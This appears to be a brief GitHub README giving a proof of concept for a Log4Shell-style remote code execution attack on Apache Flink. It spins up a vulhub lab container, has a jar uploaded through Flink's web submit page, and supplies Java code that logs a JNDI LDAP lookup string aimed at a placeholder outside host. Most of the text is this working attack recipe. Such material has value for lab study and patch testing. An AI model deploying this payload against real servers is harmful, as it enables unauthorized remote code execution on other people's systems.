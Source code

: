 # Apache Flink log4j RCE

## vulhub

```
cd vulhub/flink/CVE-2020-17518
docker-compose up -d
```

## upload log4j RCE jar

I've tested it

![](1.png)

click button -- submit

![](2.png)

## Poc

```
import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;

public class Test {
    private static final Logger logger = LogManager.getLogger(Test.class);

    public static void main(String[] args) {
        logger.error("${jndi:ldap://flink_test.xxxxxxx}");
    }

}

```